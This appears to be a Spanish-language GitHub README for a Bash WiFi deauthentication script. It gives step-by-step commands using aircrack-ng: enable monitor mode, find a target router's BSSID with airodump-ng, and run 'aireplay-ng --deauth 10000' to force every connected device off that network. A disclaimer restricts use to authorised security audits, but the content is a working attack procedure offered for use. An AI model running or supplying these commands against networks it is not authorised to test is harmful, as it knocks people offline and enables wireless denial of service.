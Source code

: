 # 🔓 WiFi Deauthentication Script

Este script en Bash permite realizar un ataque de **deautenticación WiFi**, forzando la desconexión de todos los dispositivos conectados a un router específico. Es útil para pruebas de **auditoría de seguridad** en redes propias.

> ⚠️ **Advertencia Legal**  
> Este script está destinado exclusivamente a fines educativos y de auditoría en redes autorizadas.  
> El uso no autorizado de esta herramienta puede violar leyes locales o internacionales.  
> El autor no se responsabiliza por el uso indebido.

---

## 🛠 Requisitos

- 🐧 **Distribución Linux** con soporte de herramientas de auditoría (Kali Linux, Parrot OS, etc.).
- 📡 **Adaptador WiFi** compatible con **modo monitor** e **inyección de paquetes**.
- 🔧 **Paquete `aircrack-ng`** instalado (incluye `airmon-ng`, `aireplay-ng`, etc.).

### 1. Instalación de `aircrack-ng` (si aún no lo tienes):

```bash
sudo apt update && sudo apt install aircrack-ng
```

### 2. Da permisos de ejecución al script
```bash
chmod +x deauth.sh
3. Ejecuta el script como superusuario "sudo"
```

```bash
sudo ./deauth.sh
```

### 4. Selecciona la interfaz WiFi
El script mostrará tus interfaces disponibles. Por ejemplo:

```
wlan0 
wlan1

Introduce el nombre de la interfaz que deseas usar.
```

### 5. Activa el modo monitor
Si aún no lo has hecho manualmente, actívalo así:

```bash
sudo airmon-ng start wlan0
```

### 6. Introduce el BSSID del router objetivo
El script te pedirá que ingreses el BSSID (ejemplo: 
```
54:65:DE:8D:8F:10).
```
Puedes obtenerlo usando:

```bash
sudo airodump-ng wlan0mon
```

### 7. El script lanzará el ataque
Verás un mensaje indicando que se ha iniciado el ataque con:

```
bash
sudo aireplay-ng --deauth 10000 -a [BSSID] [interfaz]
```

### 8. Para detener el modo monitor (opcional)
```bash
sudo airmon-ng stop wlan0mon
sudo service NetworkManager restart
```